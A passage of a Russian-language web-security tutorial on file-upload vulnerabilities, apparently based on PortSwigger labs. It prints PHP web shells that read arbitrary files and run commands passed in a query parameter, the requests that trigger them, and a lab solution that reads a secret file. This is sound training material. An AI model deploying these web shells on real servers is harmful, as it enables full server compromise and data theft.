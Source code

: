 Если вам удастся успешно загрузить веб-оболочку, вы фактически получите полный контроль над сервером. Это означает, что вы можете читать и записывать произвольные файлы, передавать конфиденциальные данные и даже использовать сервер для атак как на внутреннюю инфраструктуру, так и на другие серверы вне сети. Например, следующая однострочная команда PHP может быть использована для чтения произвольных файлов из файловой системы сервера:

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

После загрузки запрос на этот вредоносный файл вернет в ответ содержимое целевого файла.

Более универсальная веб-оболочка может выглядеть примерно так:
```
<?php echo system($_GET['command']); ?>
```
Этот сценарий позволяет передать произвольную системную команду через параметр запроса следующим образом:
```
GET /example/exploit.php?command=id HTTP/1.1
```

### Удаленное выполнение кода через Web shell upload

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

Эта лабораторная содержит уязвимую функцию загрузки изображений. Она не выполняет никакой проверки файлов, загружаемых пользователями, перед тем как сохранить их в файловой системе сервера.  
  
Чтобы решить эту задачу, загрузите базовую веб-оболочку PHP и используйте ее для получения содержимого файла `/home/carlos/secret`. Отправьте этот секрет с помощью кнопки, расположенной на баннере лаборатории.  
  
Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`

#### Решение

файл: `exploit.php`
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Далее нужно лишь обратиться к файлу:
```
GET /files/avatars/exploit.php HTTP/1.1
```

# Недостатки проверки загружаемых файлов  

Вряд ли вы найдете сайт, на котором нет защиты от атак на загрузку файлов, как мы видели в предыдущем примере. Но если защита существует, это еще не значит, что она надежна. Иногда все еще можно использовать недостатки в этих механизмах, чтобы получить веб-оболочку для удаленного выполнения кода.

## Неправильная проверка **Content-Type**

При отправке HTML-форм браузер обычно отправляет данные в `POST`-запросе с типом содержимого `application/x-www-form-url-encoded`. Это хорошо подходит для отправки простого текста, например вашего имени или адреса. Однако он не подходит для отправки больших объемов двоичных данных, например целого файла изображения или PDF-документа. В этом случае предпочтительнее использовать тип содержимого `multipart/form-data`.  
  